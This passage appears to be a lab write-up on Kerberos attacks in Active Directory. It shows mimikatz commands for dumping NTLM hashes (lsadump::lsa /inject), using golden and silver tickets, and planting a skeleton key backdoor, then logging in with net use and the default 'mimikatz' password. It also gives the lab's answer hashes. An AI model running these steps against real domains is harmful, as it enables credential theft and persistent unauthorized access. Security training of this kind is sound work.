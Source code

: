 
##  Use the Golden/Silver Ticket to access other machines 

1. ``misc:cmd``

```shell
mimikatz # misc::cmd 
Patch OK for 'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF631EF43B8 
````

2. Access machine that we want. What we can access depends on the privileges of the user that we took the ticket from. However if we take the krbtgt we have access to the ENTIRE network (golden ticket).

##   Answer the questions below

**What is the SQLService NTLM Hash?**

- ``lsadump::lsa /inject /name:SQLService``
- cd40c9ed96265531b21fc5b1dafcfb0a

**What is the Administrator NTLM Hash?**

- ``lsadump::lsa /inject /name:Administrator``
- 2777b7fec870e04dda00cd7260f7bee6

* * * 

## Task 8 - Kerberos Backdoors w/ mimikatz 

- The default hash for a mimikatz skeleton key is 60BA4FCADC466C7A033C178194C03DF6 which makes the password -"mimikatz"

##  Skeleton Key Overview

The skeleton key works by abusing the AS-REQ encrypted timestamps as I said above, the timestamp is encrypted with the users NT hash. The domain controller then tries to decrypt this timestamp with the users NT hash, once a skeleton key is implanted the domain controller tries to decrypt the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

- Run ``mimikatz``
- Install Skeleton key ``misc::skeleton``
- Access the forest with default credentials, example:
- ``net use \\CONTROLLER-1\admin$ /user:Administrator mimikatz``

* * * 

## Task 9 - Conclusion 

Resources 

-    https://medium.com/@t0pazg3m/pass-the-ticket-ptt-attack-in-mimikatz-and-a-gotcha-96a5805e257a
-    https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/as-rep-roasting-using-rubeus-and-hashcat
-    https://posts.specterops.io/kerberoasting-revisited-d434351bd4d1
-    https://www.harmj0y.net/blog/redteaming/not-a-security-boundary-breaking-forest-trusts/
-    https://www.varonis.com/blog/kerberos-authentication-explained/
-    https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It-wp.pdf
-    https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1493862736.pdf
-    https://www.redsiege.com/wp-content/uploads/2020/04/20200430-kerb101.pdf

* * * 




